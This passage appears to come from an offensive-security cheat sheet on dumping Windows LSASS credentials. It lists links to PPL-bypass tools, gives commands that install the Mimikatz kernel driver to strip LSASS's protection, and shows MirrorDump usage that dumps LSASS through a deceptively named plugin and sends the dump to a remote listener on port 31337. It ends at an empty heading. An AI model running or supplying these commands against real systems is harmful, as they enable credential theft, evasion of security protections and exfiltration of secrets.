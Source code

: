 


## Remove PPL Protection

- [https://googleprojectzero.blogspot.com/2018/08/windows-exploitation-tricks-exploiting.html](https://googleprojectzero.blogspot.com/2018/08/windows-exploitation-tricks-exploiting.html)
- [https://itm4n.github.io/lsass-runasppl/](https://itm4n.github.io/lsass-runasppl/)
- [https://blog.scrt.ch/2021/04/22/bypassing-lsa-protection-in-userland/](https://blog.scrt.ch/2021/04/22/bypassing-lsa-protection-in-userland/)
- [https://github.com/itm4n/PPLdump](https://github.com/itm4n/PPLdump)
- [https://itm4n.github.io/the-end-of-ppldump/](https://itm4n.github.io/the-end-of-ppldump/)
- [https://github.com/RedCursorSecurityConsulting/PPLKiller](https://github.com/RedCursorSecurityConsulting/PPLKiller)
- [https://tastypepperoni.medium.com/running-exploit-as-protected-process-ligh-from-userland-f4c7dfe63387](https://tastypepperoni.medium.com/running-exploit-as-protected-process-ligh-from-userland-f4c7dfe63387)
- [https://github.com/tastypepperoni/RunAsWinTcb](https://github.com/tastypepperoni/RunAsWinTcb)

Using Mimikatz driver:

```
PS > sc.exe create mimidrv binPath= C:\Windows\Tasks\mimidrv.sys type= kernel start= demand
PS > sc.exe start mimidrv
PS > Invoke-Mimikatz -Command '"!processprotect /process:lsass.exe /remove" "exit"'
```




## Load SSP

- [https://blog.xpnsec.com/exploring-mimikatz-part-2/](https://blog.xpnsec.com/exploring-mimikatz-part-2/)
- [https://www.programmersought.com/article/65604621980/](https://www.programmersought.com/article/65604621980/)
- [https://russianblogs.com/article/42611473286/](https://russianblogs.com/article/42611473286/)



### MirrorDump

- [https://github.com/CCob/MirrorDump](https://github.com/CCob/MirrorDump)
- [https://github.com/snovvcrash/MirrorDump](https://github.com/snovvcrash/MirrorDump)

```
Cmd > .\MirrorDump.exe -f "NotLSASS.zip" -d "LegitLSAPlugin.dll" -l 1073741824
Cmd > .\MirrorDump.exe --parse

$ python3 MirrorDump.py 0.0.0.0 31337 --md5 --parse
Cmd > .\MirrorDump.exe --host 10.10.13.37 --port 31337
```



### DuplicateDump

